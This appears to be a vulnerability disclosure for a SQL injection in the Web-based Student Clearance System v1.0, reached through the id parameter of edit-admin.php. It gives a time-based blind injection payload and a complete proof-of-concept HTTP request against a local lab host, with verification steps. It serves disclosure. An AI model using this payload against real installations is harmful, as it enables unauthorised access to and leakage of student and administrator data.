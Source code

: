 # Vulnerability Description

[The Web-based Student Clearance System v1.0](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html) was discovered to contain a SQL injection vulnerability via the edit-admin.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/). This vulnerability can lead to database information leakage.

1. Vulnerability Submitter: Tr0e
  
2. vendors: [Web-Based Student Clearance System in PHP Free Source Code](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4
  

# Vulnerability Verification

[+] Payload:

```java
4'and(select*from(select+sleep(2))a/**/union/**/select+1)='
```

POC：

```js
POST http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4'and(select*from(select+sleep(2))a/**/union/**/select+1)=' HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 467
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=rbcvgagjbbad1bbrbb62nukgmc
Connection: close

------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="txtfullname"

EKE, EMMANUEL EFA-EVAL
------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="txtemail"

11112222
------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="cmddesignation"

Admin
------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz--
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above.

The vulnerability is located at the "User Management - Users Record - Admin Record - Action - Edit" function, you shuold inserts Payload when you edit User Profile，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194559271-51d6d5ce-fb00-4f18-ab1c-22cdca39cdcc.png)
![image](https://user-images.githubusercontent.com/42080954/194559487-a552942b-d307-4ea5-9c66-60c112d99f8d.png)


